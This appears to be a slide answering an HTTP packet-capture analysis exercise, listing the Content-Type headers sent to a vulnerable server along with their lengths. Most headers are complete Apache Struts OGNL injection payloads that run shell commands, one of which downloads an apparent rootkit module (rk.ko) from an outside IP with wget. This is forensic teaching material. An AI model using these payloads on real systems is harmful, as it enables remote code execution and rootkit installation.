

# Task 1 – HTTP Traffic Analysis
2.a Provide a list of the Content-Type headers sent to the vulnerable server from the provided HTTP packet capture. For each Content-Type header, provide its length as well.

| content\_type | length |
| --- | --- |
| application/x-www-form-urlencoded | 33 |
| .multipart/form-data~${#context["com.opensymphony.xwork2.dispatcher.HttpServletResponse"].addHeader("LOLOLOLOLOLPAYLOADWORKEDLOLOLOLOL",1330+7)} | 144 |
| %{(#\_='multipart/formdata').(#dm=@ognl.OgnlContext@DEFAULT\_MEMBER\_ACCESS).(#\_memberAccess?(#\_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ls').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','c',#cmd})).(#p=newjava.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} | 806 |
| %{(#\_='multipart/formdata').(#dm=@ognl.OgnlContext@DEFAULT\_MEMBER\_ACCESS).(#\_memberAccess?(#\_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash',’c',#cmd})).(#p=newjava.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} | 810 |
| %{(#\_='multipart/formdata').(#dm=@ognl.OgnlContext@DEFAULT\_MEMBER\_ACCESS).(#\_memberAccess?(#\_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='insmodrk.ko.1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','c',#cmd})).(#p=newjava.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} | 818 |
| %{(#\_='multipart/formdata').(#dm=@ognl.OgnlContext@DEFAULT\_MEMBER\_ACCESS).(#\_memberAccess?(#\_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='wget http://162.212.156.148/rk.ko > rk.ko’) .(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.aapache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} | 845 |